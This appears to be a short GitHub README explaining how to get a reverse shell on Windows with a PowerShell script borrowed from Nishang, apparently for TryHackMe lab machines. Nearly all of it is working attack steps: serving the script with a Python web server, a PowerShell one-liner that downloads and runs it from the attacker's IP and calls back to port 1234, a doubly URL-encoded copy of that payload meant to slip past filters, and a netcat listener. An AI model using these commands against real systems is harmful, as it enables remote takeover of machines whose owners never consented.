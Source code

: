 # powershell-reverse-shell
its a simple powershell script took from nishang a usefully for reverse shell most for windows, so as i can't get hard time most to get a reverse shell on windows


# how to run the powershell script and get a reverse shell(usage)
**1.** open a simple python server and make sure the script is right there were you have opened the server
command: python3 -m http.server 81

where: 
port 81 (is where i have decided to open the port coz for me port 80 was already in used)
ip_address: 10.8.58.50 (check via ifconfig command or ip a| grep tun0)

**NB**: After you have saved this script and opened a server now u can execute the following command on the target machine
**2.** there multiple ways to do this first all u need to save the file as saved for me as shell.ps1 and after u need to execute the following command the target machine(anyway vulnerable that can allow you to run command or execute commands

**command**: powershell -c iex (New-Object Net.WebClient).DownloadString('http://10.8.58.50:81/shell.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.8.58.50 -Port 1234

NB: sometimes this command may not work so u can just incode the command either online or anything i love doing this with burpsuite course it is easy
Forexample with a tryhackme  room(iron corp , in order to get a reverse shell you were supporsed to encode the payload more than two times

## my encoded payload
%25%37%30%25%36%66%25%37%37%25%36%35%25%37%32%25%37%33%25%36%38%25%36%35%25%36%63%25%36%63%25%32%30%25%32%64%25%36%33%25%32%30%25%36%39%25%36%35%25%37%38%25%32%30%25%32%38%25%34%65%25%36%35%25%37%37%25%32%64%25%34%66%25%36%32%25%36%61%25%36%35%25%36%33%25%37%34%25%32%30%25%34%65%25%36%35%25%37%34%25%32%65%25%35%37%25%36%35%25%36%32%25%34%33%25%36%63%25%36%39%25%36%35%25%36%65%25%37%34%25%32%39%25%32%65%25%34%34%25%36%66%25%37%37%25%36%65%25%36%63%25%36%66%25%36%31%25%36%34%25%35%33%25%37%34%25%37%32%25%36%39%25%36%65%25%36%37%25%32%38%25%32%37%25%36%38%25%37%34%25%37%34%25%37%30%25%33%61%25%32%66%25%32%66%25%33%31%25%33%30%25%32%65%25%33%38%25%32%65%25%33%35%25%33%38%25%32%65%25%33%35%25%33%30%25%33%61%25%33%38%25%33%31%25%32%66%25%37%33%25%36%38%25%36%35%25%36%63%25%36%63%25%32%65%25%37%30%25%37%33%25%33%31%25%32%37%25%32%39%25%33%62%25%34%39%25%36%65%25%37%36%25%36%66%25%36%62%25%36%35%25%32%64%25%35%30%25%36%66%25%37%37%25%36%35%25%37%32%25%35%33%25%36%38%25%36%35%25%36%63%25%36%63%25%35%34%25%36%33%25%37%30%25%32%30%25%32%64%25%35%32%25%36%35%25%37%36%25%36%35%25%37%32%25%37%33%25%36%35%25%32%30%25%32%64%25%34%39%25%35%30%25%34%31%25%36%34%25%36%34%25%37%32%25%36%35%25%37%33%25%37%33%25%32%30%25%33%31%25%33%30%25%32%65%25%33%38%25%32%65%25%33%35%25%33%38%25%32%65%25%33%35%25%33%30%25%32%30%25%32%64%25%35%30%25%36%66%25%37%32%25%37%34%25%32%30%25%33%31%25%33%32%25%33%33%25%33%34


3. start a netcat listener on your local machine

**command:** nc -nlvp 1234

